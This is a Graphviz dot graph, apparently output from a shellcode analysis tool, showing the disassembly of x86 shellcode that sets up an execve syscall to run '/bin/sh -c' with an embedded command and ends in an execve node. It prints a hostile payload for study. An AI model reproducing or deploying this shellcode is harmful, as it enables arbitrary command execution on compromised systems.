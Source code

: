 digraph G {
	//rankdir=LR
	node [fontname=Courier, labeljust=r];
	 "0x956c0b8" [shape=box, label = "0x00417000 6A0B                            push byte 0xb\l0x00417002 58                              pop eax\l0x00417003 99                              cwd \l0x00417004 52                              push edx\l0x00417005 66682D63                        push word 0x632d\l0x00417009 89E7                            mov edi,esp\l0x0041700b 682F736800                      push dword 0x68732f\l0x00417010 682F62696E                      push dword 0x6e69622f\l0x00417015 89E3                            mov ebx,esp\l0x00417017 52                              push edx\l0x00417018 E810000000                      call 0x15\l0x0041702d 57                              push edi\l0x0041702e 53                              push ebx\l0x0041702f 89E1                            mov ecx,esp\l"]
	 "0x9570068" [shape=box, style=filled, color=".7 .3 1.0", label = "0x00417031 execve\l"]
	 "0x956c0b8" -> "0x9570068" [style = bold ]
}